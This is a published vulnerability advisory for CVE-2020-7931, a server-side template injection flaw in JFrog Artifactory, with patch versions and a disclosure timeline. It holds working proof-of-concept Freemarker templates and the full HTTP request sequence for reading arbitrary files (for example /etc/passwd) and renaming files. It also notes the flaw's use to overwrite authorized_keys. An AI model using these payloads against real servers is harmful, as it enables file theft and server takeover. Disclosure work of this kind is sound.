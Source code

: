 # JFrog Artifactory Insecure Freemarker Template Execution


## Vendors

* JFrog


## Affected Products

* JFrog Artifactory (6.10.1 tested, other versions are also affected)


## Summary

JFrog Artifactory allows an authenticated attacker to upload, deploy, and execute Freemarker templates. A malicious Freemarker template can execute sensitive Java functions due to the use of the DefaultObjectWrapper class within Artifactory. An attacker can leverage this to read and write arbitrary files on the Artifactory instance.


## Mitigation

* JFrog has released a patch for the following versions: 5.11.8 | 6.1.6 | 6.3.9 | 6.7.8 | 6.8.17 | 6.9.6 | 6.10.9 | 6.11.7 | 6.12.3 | 6.13.2 | 6.14.2 | 6.15.1 | 6.16.0


## Credit

This issue was identified by Ryan Hanson of Atredis Partners


## References

 * CVE-2020-7931
 * https://www.jfrog.com/confluence/display/RTF/Release+Notes#ReleaseNotes-Artifactory6.15.1


## Report Timeline

2019-09-20: Atredis Partners contacted the Apache Freemarker project to determine if this behavior was known and reported a similar issue in their demo application.

2019-09-25: Apache Freemarker resolved this issue in their demo application and recommends use of SimpleObjectWrapper instead of DefaultObjectWrapper going forward.

2019-10-25: Atredis Partners provided details of this issue to JFrog as it applies to the Artifactory product.

2019-12-09: Atredis Partners provided a copy of this advisory to CERT/CC and an update to JFrog.

2019-12-10: JFrog responded with information about available patches for this issue.

2020-01-23: Atredis Partners published this advisory.


## Technical Details

JFrog allows authenticated users to execute Freemarker templates that have been deployed and marked as filtered resources. This can be abused to read and write files on the filesystem of the Artfactory server. 

These attacks work by reusing Java objects that are within scope of the template. 

To read a file, the template first accesses the security object exposed by Artifactory and then traverses the object tree to gain access to a URI and URL object, which are then used to get the contents of a file. This can be represented with a single line: 

```
security.getClass().getProtectionDomain().getClassLoader().getURLs()[0].toURI().resolve('/etc/passwd').toURL().getContent()
```

To demonstrate the file read attack, a malicious Freemarker template must first be uploaded:

```
POST /artifactory/ui/artifact/upload HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
X-Requested-With: artUI
X-ARTIFACTORY-REPOTYPE: Maven
Content-Type: multipart/form-data; boundary=---------------------------929091233030188921154790807
Content-Length: 933
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

-----------------------------929091233030188921154790807
Content-Disposition: form-data; name="file"; filename="ssti.xml"
Content-Type: text/xml

<#attempt>
    <#assign filename=request.getParameter("filename")>
    <#assign protected_domain=security.getClass().getProtectionDomain()>
    <#assign urls=protected_domain.getClassLoader().getURLs()>
    <#assign file_url=urls[0].toURI().resolve(filename).toURL()>
    <#assign file_content=file_url.getContent()>
print("".join([<#list 0..999999999 as _><#assign byte=file_content.read()><#if byte == -1><#break></#if>chr(${byte}), </#list>]))
<#recover>
print("Failed to read ${filename}")
</#attempt>
-----------------------------929091233030188921154790807--
```

The next request deploys the uploaded file:

```
POST /artifactory/ui/artifact/deploy HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Referer: http://192.168.1.1:8081/artifactory/webapp/
Content-Type: application/json;charset=utf-8
Request-Agent: artifactoryUI
X-Requested-With: artUI
Content-Length: 308
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

{"action":"deploy","unitInfo":{"artifactType":"base","path":"/ssti.xml","mavenArtifact":false,"valid":true,"origArtifactType":"base","debianArtifact":false,"vagrantArtifact":false,"composerArtifact":false,"cranArtifact":false,"bundle":false,"type":"xml"},"fileName":"ssti.xml","repoKey":"libs-release-local"}
```

The deployed artifact is marked as a filtered resource, which will cause Artifactory to use the Freemarker template engine to process it:

```
POST /artifactory/ui/filteredResource?setFiltered=true HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Referer: http://192.168.1.1:8081/artifactory/webapp/ 
Content-Type: application/json;charset=utf-8
Request-Agent: artifactoryUI
X-Requested-With: artUI
Content-Length: 50
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

{"repoKey":"libs-release-local","path":"ssti.xml"}
```

Finally, a request to `/artifactory/libs-release-local/ssti.xml?filename=/etc/passwd` is used to return the contents of the file or folder passed in the filename parameter. 

In addition to a file read, an attacker can also use this to create a File object with an arbitrary path if the web application is running in Tomcat's Catalina servlet container, which is the case with Artifactory. After creating two File objects, the `renameTo()` method can be used to move the file to an arbitrary location. 

The template below demonstrates use of the `renameTo()` method:

```
<#assign protected_domain=security.getClass().getProtectionDomain()>
<#assign loader=protected_domain.getClassLoader()>
<#assign root=loader.getResources()>
<#assign context=root.getContext()>
<#assign host=context.getParent()>
<#assign orig_appbase=host.getAppBaseFile()>

${host.setAppBase("/opt/jfrog/artifactory/README.txt")} 
<#assign source_file=host.getAppBaseFile()>

${host.setAppBase("/opt/jfrog/artifactory/README2.txt")} 
<#assign dest_file=host.getAppBaseFile()>

orig: ${orig_appbase}
source_file: ${source_file}
dest_file: ${dest_file}
renamed?: ${source_file.renameTo(dest_file)?string}
restoring... ${host.setAppBase(orig_appbase?string)}
restored: ${host.getAppBaseFile()}
```

The template above works by traversing the object hierarchy to gain access to the `org.apache.catalina.core.StandardHost` object and then converting a string to a File by first calling `setAppBase()` with the string and then accessing the File object by calling `getAppBaseFile()`. This allows for a source and destination file to be created and used in a call to `renameTo()`. In this case it simply renames the `README.txt` file to `README2.txt`, but this can also be used by an attacker to compromise the Artifactory server, by rewriting `.ssh/authorized_keys` or another sensitive file.

